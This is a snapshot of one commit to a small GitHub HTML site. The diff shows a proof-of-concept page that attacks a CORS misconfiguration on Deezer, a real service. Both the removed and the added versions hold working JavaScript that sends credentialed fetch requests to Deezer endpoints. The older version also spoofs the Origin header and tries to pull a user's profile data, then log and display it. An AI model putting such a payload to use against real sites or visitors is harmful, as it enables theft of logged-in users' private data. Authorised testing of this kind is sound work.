

Before and after one commit to althaf009/cors, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,29 +1,29 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>Deezer CORS Misconfiguration PoC</title>
+    <title>CORS Exploit PoC</title>
 </head>
 <body>
-  <h1>Deezer CORS Attack Test</h1>
-  <p>If successful, this page will retrieve sensitive data from Deezer.</p>
+    <h1>CORS Misconfiguration PoC</h1>
+    <p>Click the button below to test the CORS vulnerability.</p>
+    <button onclick="testCORS()">Test CORS</button>
 
     <script>
-    fetch("https://www.deezer.com/user-profile-endpoint", {
-      method: "GET",
-      credentials: "include",
-      headers: {
-        "Origin": "https://evilwww.deezer.com"
-      }
+        function testCORS() {
+            fetch('https://www.deezer.com', {
+                method: 'GET',
+                credentials: 'include' // Include cookies in the request
             })
             .then(response => response.text())
             .then(data => {
-      console.log("Sensitive data from Deezer:", data);
-      alert("Data retrieved: " + data);
+                console.log("Response from Deezer:", data);
+                alert("CORS Request Success! Check the console for the response.");
             })
-    .catch(err => {
-      console.error("CORS Attack Failed:", err);
-      alert("CORS Attack Failed. No data retrieved.");
+            .catch(error => {
+                console.error("CORS request failed:", error);
+                alert("CORS Request Failed. See the console for details.");
             });
+        }
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
